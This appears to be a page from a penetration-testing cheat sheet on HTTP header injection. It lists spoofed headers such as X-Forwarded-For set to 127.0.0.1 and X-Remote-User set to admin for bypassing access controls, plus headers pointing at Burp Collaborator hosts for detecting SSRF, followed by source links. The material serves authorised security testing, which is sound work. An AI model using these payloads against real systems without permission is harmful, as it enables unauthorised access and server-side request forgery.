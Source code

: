 ```http
// Other Bypasses
X-Forwarded-For: 127.0.0.1\r
X_Forwarded_For: 127.0.0.1
Forwarded: for=127.0.0.1 
X-ProxyUser-Ip: 127.0.0.1
X-Remote-User: admin
Referer: RandomString(10).id.burpcollaborator.net
Origin: https://RandomString(10).id.burpcollaborator.net
----------
Referer: RandomString(10).id.burpcollaborator.net
Referer: RandomString(10).id.burpcollaborator.net
Origin: https://RandomString(10).id.burpcollaborator.net
Origin: https://RandomString(10).id.burpcollaborator.net
--------------------------------------
# Inject Noun-Standard Headers
X-Forwarded-For: RandomString(10).id.burpcollaborator.net
X-Forwarded-Host: RandomString(10).id.burpcollaborator.net
X-Client-IP: RandomString(10).id.burpcollaborator.net
X-Originating-IP: RandomString(10).id.burpcollaborator.net
X-WAP-Profile: https://RandomString(10).id.burpcollaborator.net
True-Client-IP: RandomString(10).id.burpcollaborator.net
----------------------------------------------------------------------------
# Double Noun-Standard Headers
X-Forwarded-For: RandomString(10).id.burpcollaborator.net
X-Forwarded-For: RandomString(10).id.burpcollaborator.net
X-Forwarded-Host: RandomString(10).id.burpcollaborator.net
X-Forwarded-Host: RandomString(10).id.burpcollaborator.net
X-Client-IP: RandomString(10).id.burpcollaborator.net
X-Client-IP: RandomString(10).id.burpcollaborator.net
--------------------------------------------------
# Sources 
https://zeronights.ru/wp-content/themes/zeronights-2019/public/materials/4_ZN2019_Morozov_SSRF.pdf
https://blog.paloaltonetworks.com/2019/10/cloud-kubernetes-vulnerabilities/
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For
https://speakerdeck.com/bo0om/at-home-among-strangers?slide=8
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Forwarded
https://www.slideshare.net/sergeybelove/attacking-thru-http-host-header
https://www.slideshare.net/ssusera0a306/offzone-another-waf-bypass
https://www.youtube.com/watch?v=zP4b3pw94s0
https://hackerone.com/reports/429617
https://medium.com/bugbountywriteup/identifying-escalating-http-host-header-injection-attacks-7586d0ff2c67
https://www.youtube.com/watch?v=zP4b3pw94s0
https://www.youtube.com/watch?v=V8f6gqrCbZU
https://github.com/Bo0oM/WAF-bypass-Cheat-Sheet

```

* Try To Change Routing Of The Request To Get SSRF

{% embed url="https://x.com/nnwakelam/status/1280796589276098560" %}
